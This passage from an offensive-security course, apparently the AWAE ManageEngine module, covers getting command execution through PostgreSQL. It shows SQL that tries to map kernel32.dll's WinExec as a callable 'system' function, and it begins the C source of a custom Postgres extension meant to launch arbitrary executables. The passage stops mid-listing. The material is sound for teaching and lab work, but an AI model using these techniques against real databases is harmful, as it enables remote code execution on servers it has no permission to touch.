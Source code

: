 > Listing 40 - Basic SQL syntax to create a function from a local library

However, there is an important restriction that we need to keep in mind. The compiled extension we want to load **must** define an appropriate Postgres structure (magic block) to ensure that a dynamically library file is not loaded into an incompatible server.

If the target library doesn't have this magic block (as is the case with all standard system libraries), then the loading process will fail.

Let's take a look at an example:

```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');
ERROR:  incompatible library "c:\Windows\System32\kernel32.dll": missing magic block
HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.

********** Error **********
```

> Listing 41 - Attempting to load a Windows DLL.

As shown in the listing above, the loading process failed which means that we are going to have to compile a custom dynamic library. While that may sound daunting, we will soon discover that it is very much within our grasp.

### 3.6.1. Build Environment

Our ManageEngine virtual machine comes with a pre-configured build environment for Visual Studio 2017. Let's start by opening up the awae project that you should see pinned in the _Recent Solution_ Visual Studio bottom right window pane (Figure 23).

![Figure 23: awae project in Recent Solution.](https://static.offsec.com/offsec-courses/WEB-300/images/manageengine_sqli/2c5811abfff823b055ea50a99fc21770-Picture32a.png)

Figure 23: awae project in Recent Solution.

![Figure 24: Overview of the AWAE Visual Studio solution.](https://static.offsec.com/offsec-courses/WEB-300/images/manageengine_sqli/55bf6dc9bb3ad20a87a884ffdac78595-Picture32.png)

Figure 24: Overview of the AWAE Visual Studio solution.

The following example code can be found in the poc.c source file within the _awae_ solution:

```
01: #include "postgres.h"
02: #include <string.h>
03: #include "fmgr.h"
04: #include "utils/geo_decls.h"
05: #include <stdio.h>
06: #include "utils/builtins.h"
07: 
08: #ifdef PG_MODULE_MAGIC
09: PG_MODULE_MAGIC;
10: #endif
11: 
12: /* Add a prototype marked PGDLLEXPORT */
13: PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
14: PG_FUNCTION_INFO_V1(awae);
15: 
16: /* this function launches the executable passed in as the first parameter
17: in a FOR loop bound by the second parameter that is also passed*/
18: Datum
19: awae(PG_FUNCTION_ARGS)
20: {
21: 	/* convert text pointer to C string */
22: #define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))
23: 
24:     /* retrieve the second argument that is passed to the function (an integer)
25:     that will serve as our counter limit*/
```